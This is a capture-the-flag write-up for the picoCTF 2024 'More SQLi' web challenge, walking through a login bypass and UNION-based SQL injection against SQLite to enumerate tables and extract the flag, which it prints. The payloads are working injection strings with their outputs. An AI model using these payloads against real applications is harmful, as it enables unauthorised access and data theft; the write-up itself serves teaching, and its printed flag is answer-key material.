 # picoCTF 2024 – More SQLi Write-up

**Challenge:** More SQLi  
**Author:** Mubarak Mikail  
**Category:** Web Exploitation   
**URL:** http://saturn.picoctf.net:57682/  



## 🧠 Description

Can you find the flag on this website?  
Try to find the flag at the given URL.

---
## 🚩 Solution
---

## 🛠 Step 0 :) Bypass the login
### Using classic SQL injection on the login form:
```sqlite
Username: admin  
Password: ' OR 1=1 -- -
```
---

### 🔍 Step 1: Test for SQL Injection

Use a classic SQLi payload in the search field to test:

```
' UNION SELECT 1,2,3-- -
```

✅ If successful, the page displays `1`, `2`, and `3` — confirming that:
- SQLi is possible
- The query uses 3 columns

---

### 📂 Step 2: List Table Names from `sqlite_master`

Since this is SQLite, use the internal metadata table:

```
' UNION SELECT 1,group_concat(name),3 FROM sqlite_master WHERE type='table'-- -
```

✅ Output:

```
users,offices,hints,more_table
```

---

### 🧱 Step 3: Dump Schema of `more_table`

We suspect the flag is in `more_table`. Check its schema:

```
' UNION SELECT 1,sql,3 FROM sqlite_master WHERE name='more_table'-- -
```

✅ Output:

```
CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
```

Now we know there's a `flag` column.

---

### 🏁 Step 4: Extract the Flag

Final payload to extract the flag:

```
' UNION SELECT 1,flag,3 FROM more_table-- -
```

✅ Output:

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}
```

---

## ✅ Final Flag

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_c8b7cc2a}
```

---

## 📝 Summary

- SQLite backend with UNION-based SQL injection
- Used `sqlite_master` to list tables and extract schema
- Retrieved the flag from `more_table.flag`
